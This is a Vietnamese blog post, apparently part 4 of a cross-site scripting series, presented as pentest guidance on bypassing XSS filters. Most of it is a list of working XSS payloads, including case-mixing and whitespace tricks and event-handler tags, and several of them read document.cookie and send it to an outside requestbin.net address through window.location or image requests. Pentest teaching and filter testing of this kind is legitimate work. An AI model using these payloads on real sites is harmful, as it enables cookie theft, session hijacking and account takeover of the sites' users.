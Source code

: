```yaml
---
layout: post
title: Cross Site Scripting (XSS) [Part 4] - Các phương pháp bypass filter XSS,
date: 2021-05-23 00:32:20 +0700
description: Tìm hiểu về lỗi Cross Site Scripting trên ứng dụng web - P4,
img: 2021/05/23/210523_xss_filter.jpg
fig-caption: # Add figcaption (optional)
tags: [Security, WebSecurity]
---
```

Trong quá trình pentest ứng dụng có thể gặp nhiều trường hợp các payload XSS bị filter, làm thế nào để có thể bypass quá trình filter đó. Bài viết này chúng ta sẽ sẽ cùng nhau trao đổi một số phương pháp để thực hiện việc này. 

>PS: Chủ đề này tôi cũng không định ngồi viết một lèo là xong, sẽ viết dần dần theo năm tháng dựa trên những kinh nghiệm của mình tích lỹ được. Do vậy lâu lâu các bạn vào ngó nha có thể có nội dung mới nha. Ok, bắt đầu thôi.

**Nhắc lại:** Các cách bypass XSS phụ thuộc vào khả năng làm sạch input (thực hiện bởi WAF hoặc Ứng dụng). Có một vài cơ chế của việc này như:
* Trả lại lỗi, loại bỏ, encode, hoặc thay thế các input không hợp lệ. 
* Một số có thể dùng blacklist hoặc whitelist các ký tự thường gặp trong payload để ngăn chặn XSS.

Tùy thuộc vào cơ chế filter mà có các cách bypass khác nhau. Nếu ví quá trình filter như người bảo vệ ứng dụng web thì quá trình bypass là quá trình luồn lách để qua mặt những người bảo vệ này. Khó thể nói có công thức nào tuyệt đối mà là sự tùy cơ ứng biến cho phù hợp từng hoàn cảnh. Hãy nhớ điều này.


## Các load js nguyên thủy (Không mask) huyền thoại 
### Alert message

~~~js
<script>alert(1);</script>
~~~

### Dùng window location

~~~js
<script>window.location="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie)</script>
~~~

### Dùng image

~~~js
<script>new Image().src="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie);</script>
~~~

## Các payload sử dụng mask
### Case sensitive

~~~js
<SCRIPT>alert(1);</SCRIPT>
<ScRipT>alert(1);</sCriPt>
~~~
### Lọc thẻ script
* Insert thêm ký tự trình duyệt hay bỏ qua (Tab, escape)

```
<script  >alert(1);</script   >
```

* Không dùng thẻ script

```
<img src=x onerror=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)>
<video src=1 onerror=alert(1)>
<audio src=1 onerror=alert(1)>
<img src=1 href=1 onerror="javascript:alert(1)"></img>
<audio src=1 href=1 onerror="javascript:alert(1)"></audio>
<video src=1 href=1 onerror="javascript:alert(1)"></video>
<input onblur=javascript:alert(1) autofocus><input autofocus>
<BODY ONLOAD=alert('XSS')>
<button autofocus onfocus=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)></button>
<a onmouseover=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)>xxs link</a>
```

